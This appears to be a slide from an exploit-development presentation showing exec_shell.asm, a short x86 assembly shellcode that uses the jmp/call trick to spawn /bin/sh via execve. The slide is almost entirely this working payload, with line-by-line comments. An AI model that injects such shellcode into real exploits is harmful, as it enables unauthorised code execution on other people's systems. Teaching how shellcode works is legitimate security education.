

# Getting down to business
exec_shell.asm

BITS 32

  jmp short two     ; Jump down to the bottom for the call trick.
one:
; int execve(const char *filename, char *const argv [], char *const envp[])
  pop ebx           ; Ebx has the addr of the string.
  xor eax, eax      ; Put 0 into eax.
  mov [ebx+7], al   ; Null terminate the /bin/sh string.
  mov [ebx+8], ebx  ; Put addr from ebx where the AAAA is.
  mov [ebx+12], eax ; Put 32-bit null terminator where the BBBB is.
  lea ecx, [ebx+8]  ; Load the address of [ebx+8] into ecx for argv ptr.
  lea edx, [ebx+12] ; Edx = ebx + 12, which is the envp ptr.
  mov al, 11        ; Syscall #11
  int 0x80          ; Do it.

two:
  call one          ; Use a call to get string address.
  db '/bin/shXAAAABBBB'     ; The XAAAABBBB bytes aren't needed.